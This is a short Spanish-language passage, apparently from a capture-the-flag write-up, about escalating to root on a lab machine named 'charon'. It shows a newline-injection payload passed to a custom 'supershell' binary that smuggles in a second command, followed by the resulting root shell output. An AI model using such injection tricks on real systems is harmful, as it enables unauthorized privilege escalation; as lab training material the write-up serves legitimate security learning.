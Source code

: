 ```bash
```

Al realizar varias pruebas, ya encontramos una forma de ejecutar comandos como el usuario **root** y lo logramos escapando del contexto con `$/ \n whoami \n "` y vemos **root**. Por lo tanto, ahora vamos a lanzarnos una `bash`:

```bash
decoder@charon:~$ /usr/local/bin/supershell "/bin/ls$/
> bash
> "
Supershell (very beta)
++[/bin/ls$/
bash
]
sh: 1: /bin/ls$/: not found
root@charon:~# whoami
root
root@charon:~#
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).
